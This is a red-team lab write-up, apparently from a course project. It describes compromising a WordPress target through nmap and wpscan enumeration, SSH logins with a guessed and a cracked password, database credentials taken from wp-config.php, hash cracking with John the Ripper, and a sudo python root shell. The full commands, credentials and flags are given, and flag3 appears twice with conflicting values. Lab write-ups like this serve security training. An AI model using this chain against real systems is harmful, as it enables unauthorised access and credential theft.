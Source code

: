 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110
```
![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/1-nmap.png)

This scan identifies the services below as potential points of entry:

**Target 1**
```
- Port 22/TCP   Open SSH
- Port 80/TCP   Open HTTP
- Port 111/TCP 	Open rcpbind
- Port 139/TCP 	Open netbios-ssn
- Port 445/TCP 	Open netbios-ssn
```

The following vulnerabilities were identified on each target:
**Target 1**
```
- Weak User Password
- WordPress - user enumeration and unsalted user password hash
- Escalation of privilege
```

---

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33e11b80be759c4e844862482d**
- Exploit Used:
    - WPScan to identify users of the Target 1 machine
    - Command: `$ wpscan --url http://192.168.1.110/wordpress`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wp1.png)

    - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/wpu.png)

- Accessing user Michael
    - due to a weak password we were able to guess Michael's password
    - `ssh michael@192.168.1.110`
    - Password: `michael`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/SSH.png)

- Accessing var/www/html as root and using `grep` to capture flag1.
    - Commands:
        - `cd ../`
        - `cd var/www`
        - `cd html/`
        - `ls`
        - `grep -IR flag1 *`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/flag1.png)

- **Flag2: fc3fd58dcdad9ab23faca6e9a36e5**
- Exploit Used:
    - Same exploit used to capture flag1.
        - Commands:
            - `cd ../`
            - `ls`
            - `cat flag2.txt`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/flag2.png)

- **Flag3: fc3fd58dcdad9ab23faca6e9a36e5**
- Exploit Used:
    - Same exploit used to capture flag1 and flag2.
    - Once `wp-config.php` was found, we gained access to the database (as Michael) MySQL was used to locate flag3.
        - Commands:
            - `mysql -u root -pR@v3nSecurity`
            - `connect wordpress`
            - `show tables`
            - `seletct * from wp_posts;`

![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/sp_post.png)











![Flag 2 location](/Images/flag2-location.png "Flag 2 location")

![Flag 2 cat](/Images/flag2-cat.png "Flag 2 cat")

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![Flag 3 location](/Images/flag3-location.png "Flag 3 location")

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - ![wp_users table](/Images/wpusers-table.png "wp_users table")

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper results](/Images/john-results.png "John the Ripper results")

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![Flag 4 location](/Images/flag4-location.png "Flag 4 location")
